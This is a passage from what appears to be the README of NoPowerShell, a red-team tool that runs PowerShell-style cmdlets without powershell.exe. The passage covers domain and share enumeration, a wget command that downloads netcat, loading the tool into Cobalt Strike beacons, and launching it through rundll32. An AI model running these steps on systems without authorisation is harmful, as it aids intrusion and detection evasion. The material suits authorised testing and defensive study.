 | Check for open port | `tnc bitsadm.in -Port 80` | |
| List network shares on the local machine that are exposed to the network | `Get-SmbMapping` | |
| Format output as a list | `Get-LocalUser \| fl` | |
| Format output as a list showing only specific attributes | `Get-LocalUser \| fl Name,Description` | |
| Format output as a table | `Get-Process \| ft` | |
| Format output as a table showing only specific attributes | `Get-Process \| ft ProcessId,Name` | |
| Download file from the Internet | `wget http://myserver.me/nc.exe` | When compiled using .NET 2 only supports SSL up to SSLv3 (no TLS 1.1+) |
| Download file from the Internet specifying the destination | `wget http://myserver.me/nc.exe -OutFile C:\Tmp\netcat.exe` | |
| Count number of results | `Get-Process \| measure` | |
| Count number of lines in file | `gc C:\Windows\WindowsUpdate.log \| measure` | |
| Show only the Name in a file listing | `ls C:\ \| select Name` | |
| Show first 10 results of file listing | `ls C:\Windows\System32 -Include *.exe \| select -First 10 Name,Length` | |
| List all members of the "Domain Admins" group | `Get-ADGroupMember "Domain Admins"` | |
| Resolve domain name | `Resolve-DnsName microsoft.com` | Alternatives: `host linux.org`, `Resolve-DnsName -Type MX pm.me` |
| List local shares | `Get-WmiObject -Namespace ROOT\CIMV2 -Query "Select * From Win32_Share Where Name LIKE '%$'"` | Alternative: `gwmi -Class Win32_Share -Filter "Name LIKE '%$'"` |
| Show network interfaces | `Get-NetIPAddress` | Alternatives: `ipconfig`, `ifconfig` |
| Show computer information | `Get-ComputerInfo` | Alternative: `systeminfo` |
| List installed hotfixes | `Get-HotFix` | The output of this cmdlet together with the output of the `Get-ComputerInfo` cmdlet can be provided to [WES-NG](https://github.com/bitsadmin/wesng/) to determine missing patches |
| List local drives | `Get-PSDrive` | |
| Compress folder to zip | `Compress-Archive -Path C:\MyFolder -DestinationPath C:\MyFolder.zip` | Only available when compiled against .NET 4.5+ |
| Extract zip | `Expand-Archive -Path C:\MyArchive.zip -DestinationPath C:\Extracted` | Alternative: `unzip C:\MyArchive.zip`. Only available when compiled against .NET 4.5+ |

## Install in Cobalt Strike
1. Copy both `NoPowerShell.exe` and `NoPowerShell.cna` to the **scripts** subfolder of Cobalt Strike
2. Launch Cobalt Strike and load the `NoPowerShell.cna` script in the Script Manager
3. Interact with a beacon and execute commands using the `nps` command

## Launch via rundll32
1. Create a new shortcut to `NoPowerShell.dll` file (drag using right click -> Create shortcuts here)
2. Update the shortcut prefixing the filename with `rundll32` and appending `,main`
3. The shortcut will now look like `rundll32 C:\Path\to\NoPowerShell.dll,main`
4. Double click the shortcut

## Note
When using NoPowerShell from cmd.exe or PowerShell, you need to escape the pipe character (`|`) with respectively a caret (`^`) or a backtick (`` ` ``), i.e.:
